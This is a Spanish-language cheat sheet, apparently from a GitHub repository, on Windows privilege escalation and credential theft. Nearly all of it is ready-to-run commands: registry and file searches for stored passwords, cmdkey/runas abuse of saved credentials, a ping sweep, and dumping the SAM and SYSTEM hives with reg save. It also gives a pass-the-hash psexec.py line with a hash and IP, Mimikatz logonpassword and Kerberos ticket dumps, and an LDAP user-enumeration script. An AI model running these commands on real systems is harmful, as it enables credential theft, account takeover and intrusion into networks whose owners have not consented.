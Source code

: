 # Formas tipicas de escalar privilegios para Windows

- WinPEAS
- PowerSploit
- Save Creds
- Sam y System
- Archivos de Configuracion
- Registro

# - Registro
```powershell
reg query HKLM /f password /t REG_SZ /s

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```
Para contraseñas en Putty
```powershell
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```
# WinPEAS
```powershell
winPEAS.exe quiet filesinfo userinfo
winPEAS.exe quiet windowscreds
winPEAS.exe quiet searchfast filesinfo
```

# PowerSploit
Estos son sus modulos a probar
```powershell
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
``` 
# Credenciales Guardadas
```cmd
cmdkey /list
``` 
Runas --> en Caso de Tener credenciales guardadas de otro usuario podriamos ejecutar acciones o binarios
```powershell
runas /savecred /user:<usuario> <ejecutable> 
```

# Script para enumerar Otras interfaces
```cmd
for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.
```

# Archivos de Configuracion
Buscando por archivos que contengan la palabra pass o extension .config
```cmd
dir /s *pass* == *.config
```
Buscando por archivos que contengan la palabra password y acaben por la extension .xml
```cmd
findstr /si password *.xml *.ini
```
- Modulo de Metasploit para buscar por password recursivamente
post/windows/gather/enum_unattend

# Sam y System
Los archivos SAM y SYSTEM, se almacenan en el directorio:
```cmd
C:\Windows\System32\config
```
Buscando por Backups de Sam y System
```cmd
C:\Windows\Repair
C:\Windows\System32\config\RegBack
```
Si los hubiesemos encontrado o tuviesemos privilegios para realizar una copia de los mismos
```
reg save HKLM\SAM SAM.backup
reg save HKLM\SYSTEM SYSTEM.backup
```

```
psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:f58b86e89c8631e432cf1a0232362853f' WORKGROUP/administrator@11.111.128.10 cmd
```

# Mimikatz

````bash
privilege::debug

[sekurlsa::logonpasswords

sekurlsa::tickets

kerberos::list /export
````

Si por un casual no nos funcionara probar de esta forma, (importante)
````bash
.\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit

````

# PowerShell LDAP Script TGT or TGS

````bash
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="samAccountType=805306368"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
    
    Write-Host "------------------------"
}

````
